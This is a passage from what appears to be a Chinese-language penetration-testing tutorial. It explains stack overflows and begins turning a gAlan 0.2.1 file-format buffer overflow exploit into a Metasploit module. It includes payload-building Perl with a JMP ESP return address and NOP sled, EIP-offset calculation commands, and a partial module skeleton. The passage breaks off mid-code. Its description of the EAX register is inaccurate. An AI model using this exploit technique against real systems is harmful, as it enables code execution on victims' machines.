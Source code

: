 在开始利用转换之前，有必要了解一些关于堆栈溢出攻击的知识。

在软件中，堆栈溢出发生在调用堆栈上使用了太多内存时。调用堆栈是包含有限内存量的软件的运行时堆栈，通常在程序开始时确定。调用堆栈的大小取决于许多因素，包括编程语言、机器架构、多线程和可用内存量。当程序尝试使用的空间超过调用堆栈上可用的空间时，堆栈被认为溢出，通常导致程序崩溃。基本上，`ESP`、`EIP`和`EAX`是在利用期间经常受到攻击的寄存器。

+   `ESP:` 指向堆栈顶部

+   `EIP:` 指向下一条指令的位置

+   `EAX:` 要执行的指令

由于在堆栈中所有寄存器都是线性存储的，我们需要知道`EIP`寄存器的确切缓冲区大小，以便溢出它将给我们`EAX`和随后执行有效载荷。

一旦我们有了利用的概念验证，下一步将是尽可能收集有关利用的信息。让我们仔细看看概念验证。前几行包括存储在`$shellcode`变量中的 shellcode。这可以使用框架中可用的任何有效载荷使用`msfpayload`或`msfvenom`生成。

```
$magic = "Mjik";
$addr = 0x7E429353; # JMP ESP @ user32,dll
$filename = "bof.galan";
$retaddr = pack('l', $addr);
$payload = $magic . $retaddr x 258 . "\x90" x 256 . $shellcode;

```

主要的利用代码以`$magic`开头，其中包含一个四字节的字符串。然后，我们有`$addr`变量，其中包含`ESP`堆栈指针的位置。然后我们有`$filename`变量，其中包含要在后期创建的文件名。`$retaddr`包含堆栈指针将指向并导致溢出后利用代码执行的返回地址的位置。最后，我们有有效载荷的执行，负责利用和 shellcode 执行。

我们从利用中知道我们的 shellcode 最多可以达到 700 字节。我们有效载荷的总长度为 1214 字节。这些信息将有助于构建我们的模块。

我们可以使用重复的返回地址，也可以找到`EIP`被覆盖时的大小。Metasploit 有一个名为`pattern_create.rb`的优秀工具，可以帮助找到`EIP`被覆盖的确切位置。这个工具生成一串唯一模式的字符串，可以传递给利用代码，并通过调试器，我们可以找到`EIP`中存储的字符串模式。让我们创建一个 5000 个字符的字符串：

```
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb
Usage: pattern_create.rb length [set a] [set b] [set c]
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb 5000 
```

现在，编辑利用脚本，将`$payload`替换为另一个测试变量`$junk`，并将 5000 个字符的字符串复制到这个变量中。现在，使用这个脚本测试应用程序，并检查`EIP`中存储的模式。我假设您已经了解了反向和调试应用程序的基础知识。假设存储在`EIP`中的字符串模式是"234abc"。现在我们将使用另一个 Metasploit 工具称为`pattern_offset.rb`来计算我们传递的字符串中存在这个模式的位置：

```
root@bt:/pentest/exploits/framework3/tools# ./pattern_offset.rb 0x234abc 5000
1032 
```

因此，要传递的总字节数，以便获得`EIP`的确切位置，为 1032。

现在我们已经收集了关于利用的足够信息，我们准备将其转换为 Metasploit 模块。

## 它是如何工作的...

让我们开始构建我们的模块。脚本的第一行将是导入库并创建父类。然后，我们将定义包含有关利用的信息并注册选项的`initialize()`函数：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
include Msf::Exploit::FILEFORMAT
def initialize(info = {})
super(update_info(info,
'Name' => 'gAlan 0.2.1 Buffer Overflow Exploit',
'Description' => %q{
This module exploits a stack overflow in gAlan 0.2.1
By creating a specially crafted galan file, an attacker may be able
to execute arbitrary code.
},
'License' => MSF_LICENSE,
'Author' => [ 'original by Jeremy Brown' ],
'Version' => '$Revision: 7724 $',
'References' =>
```